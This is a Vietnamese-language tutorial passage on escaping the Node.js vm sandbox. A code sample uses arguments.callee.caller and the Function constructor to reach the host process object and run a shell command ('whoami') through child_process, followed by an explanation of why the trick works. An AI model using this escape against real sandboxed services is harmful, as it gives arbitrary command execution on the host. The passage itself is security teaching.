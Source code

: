 Một số trường hợp khác

```js
const vm = require('vm');

const script = `(() => {
  const a = {};
  a.toString = function () {
    const cc = arguments.callee.caller;
    const p = (cc.constructor.constructor('return process'))();
    return p.mainModule.require('child_process').execSync('whoami').toString();
  };
  return a;
})()`;

const sandbox = Object.create(null);
const context = new vm.createContext(sandbox);
const res = vm.runInContext(script, context);
console.log('Hello ' + res);

```


Khi this đang là null và không có đối tượng nào khác để tham chiếu, chúng ta có thể tận dụng thuộc tính nội tại của đối tượng hàm, cụ thể là `arguments.callee.caller`. Thuộc tính này cho phép chúng ta xác định hàm nào đã gọi hàm hiện tại.

Trong tình huống này, việc thoát khỏi sandbox (sandbox escape) thực chất là tìm một đối tượng bên ngoài môi trường sandbox và gọi một trong các phương thức của nó. Cách thực hiện là định nghĩa một hàm trong sandbox, sau đó gọi hàm đó từ bên ngoài sandbox. Khi hàm trong sandbox được gọi, thuộc tính `arguments.callee.caller` sẽ trả về đối tượng hàm từ bên ngoài sandbox. Từ đó, chúng ta có thể khai thác để thực hiện việc thoát khỏi môi trường sandbox.

![alt text](assets/escapevm/6.png)
